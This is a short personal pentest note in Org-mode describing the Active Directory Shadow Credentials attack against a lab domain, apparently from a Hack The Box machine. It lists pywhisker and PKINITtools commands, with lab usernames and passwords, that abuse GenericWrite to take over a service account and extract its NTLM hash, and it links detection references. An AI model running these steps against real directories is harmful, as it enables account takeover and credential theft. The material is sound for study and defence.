:PROPERTIES:
:ID:       90fa1659-4cda-4c38-b534-1c6ac76c8fd1
:END:
#+title: Pentest - Active Directory - Shadow Credentials
#+filetags: :kerberos:
#+hugo_base_dir:../



* Shadow Credentials
[[https://github.com/ShutdownRepo/pywhisker][pywhisker]]

Abuse the GenericWrite ACL to get control of an account by adding shadow credentials:

#+begin_src shell -n
python3 /opt/pywhisker/pywhisker.py -d "certified.htb" -u "judith.mader" -p "judith09" --target "management_svc" --action "add
#+end_src

The output is a PFX cert that can be used to authenticate as the user. Get a =TGT= for the user with [[https://github.com/dirkjanm/PKINITtools][PKINITtools]]:

#+begin_src shell -n
python3 /opt/PKINITtools/gettgtpkinit.py -cert-pfx vGRMeeb9.pfx certified.htb/management_svc -pfx-pass '25nQ6mg4JUTeQEjjNRE2' management_svc.ccache
#+end_src

This will create a Kerberos ticket called management_svc.ccache file, which we can export and use the key this output provides in conjunction with =getnthash.py= from the same toolkit to get the NTLM hash of the management_svc user.


[[https://www.dsinternals.com/en/indicator-of-compromise-shadow-credentials-ntlm-relay-impacket/][dsinternals]]
[[https://cyberstoph.org/posts/2022/03/detecting-shadow-credentials/][Detecting shadow credentials]]
[[https://www.thehacker.recipes/ad/movement/kerberos/shadow-credentials][hacker recipes]]
[[https://www.hackingarticles.in/shadow-credentials-attack/][hackingarticles]]
[[https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab][medium]]
